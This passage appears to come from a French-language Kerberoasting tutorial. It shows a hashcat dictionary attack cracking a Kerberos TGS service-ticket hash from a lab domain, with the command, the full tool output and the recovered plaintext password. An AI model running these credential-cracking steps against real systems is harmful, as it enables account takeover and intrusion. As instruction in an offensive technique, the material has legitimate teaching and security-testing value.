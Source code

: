On peut maintenant essayer de casser le hash avec [hashcat](https://hashcat.net/hashcat/).

Pour plus d'accessibilité, on va mener une attaque par dictionnaire (qui est beaucoup moins coûteuse en ressources qu'une attaque par force brute). Le dictionnaire que j'utilise est [edermi Kerberoast PW list (XZ format) · GitHub](https://gist.github.com/The-Viper-One/a1ee60d8b3607807cc387d794e809f0b) qui contient environ 35 millions de mots de passe.

```plaintext
.\hashcat.exe -a 0 .\hash.txt .\kerberoast_pws.txt
```

La commande ci-dessus utilise deux fichiers externes :

- "hash.txt" qui contient le hash récupéré et mis en forme pour hashcat
- "kerberoast_pws.txt" qui contient le dictionnaire téléchargé sur GitHub

Et au bout de quelques dizaines de secondes de traitement, on obtient le mot de passe en clair : `ZombieKiller2008`

```plaintext
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 ) - Platform #1 [Intel(R) Corporation]
=============================================================
* Device #1: Intel(R) Iris(R) Xe Graphics, 3552/7176 MB (1794 MB allocatable), 96MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 210 MB

Dictionary cache hit:
* Filename..: .\kerberoast_pws.txt
* Passwords.: 35638385
* Bytes.....: 404901152
* Keyspace..: 35638385

$krb5tgs$23$*smithjo$contoso.com$MSSQLSvc/server.contoso.com*$abf9befd[...]f3ea6085:ZombieKiller2008

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*smithjo$contoso.com$MSSQLSvc/server.s...ea6085
Time.Started.....: Wed Jun 25 11:04:25 2025 (47 secs)
Time.Estimated...: Wed Jun 25 11:05:12 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (.\kerberoast_pws.txt)
Guess.Queue......: 1/1 (100.00%)
```